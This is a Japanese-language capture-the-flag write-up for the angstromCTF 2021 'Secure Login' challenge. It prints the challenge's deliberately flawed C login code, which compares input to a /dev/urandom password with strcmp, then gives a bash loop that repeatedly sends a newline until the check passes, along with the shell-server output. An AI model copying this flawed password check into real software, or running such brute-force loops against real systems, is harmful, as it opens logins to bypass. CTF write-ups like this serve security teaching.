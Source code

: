 # Secure Login:Binary:50pts
My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most [secure login service](login) in the world ([source](login.c)).  
Try to hack me at `/problems/2021/secure_login` on the shell server.  
Hint  
Look into how strcmp works and how that fits in with what /dev/urandom returns.  

# Solution
安全なログインらしい。  
配布されたソースを見ると以下のようであった。  
```C:login.c
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```
入力とパスワードが一致すればよいが、パスワードは/dev/urandomを読み取っている。  
乱数を予測するなどということは難しいので、他の突破法を考える。  
fgetsは改行コードを読み取るとその後に\0を付加して終了する。  
つまり/dev/urandomが改行から始まっている場合、passwordは\n\0の改行のみとなる。  
以下のflag.shで改行を入力し続ければよい。  
```shell:flag.sh
while [ ! "`echo $result | grep 'actf'`" ]
do
    result=$(echo -e "\n" | ./login)
done
echo $result
```
以下のように問題サーバで実行する。  
```bash
$ ssh team7901@shell.actf.co
team7901@shell.actf.co's password:
Welcome to the
                       _                            _    __
   ()                 | |                          | |  / _|
  __ _ _ __   __ _ ___| |_ _ __ ___  _ __ ___   ___| |_| |_
 / _` | '_ \ / _` / __| __| '__/ _ \| '_ ` _ \ / __| __|  _|
| (_| | | | | (_| \__ \ |_| | | (_) | | | | | | (__| |_| |
 \__,_|_| |_|\__, |___/\__|_|  \___/|_| |_| |_|\___|\__|_|
              __/ |
             |___/

shell server!

*==============================================================================*
*  Please be respectful of other users. Abuse may result in disqualification.  *
*Data can be wiped at ANY TIME with NO WARNING. Keep backups of important data!*
*==============================================================================*
Last login: Tue Apr  6 15:20:21 2021 from 127.0.0.1
team7901@actf:~$ cd /problems/2021/secure_login
team7901@actf:/problems/2021/secure_login$ while [ ! "`echo $result | grep 'actf'`" ];do    result=$(echo -e "\n" | ./login);done;echo $result;
Welcome to my ultra secure login service! Enter the password: actf{if_youre_reading_this_ive_been_hacked}
```
flagが得られた。  

## actf{if_youre_reading_this_ive_been_hacked}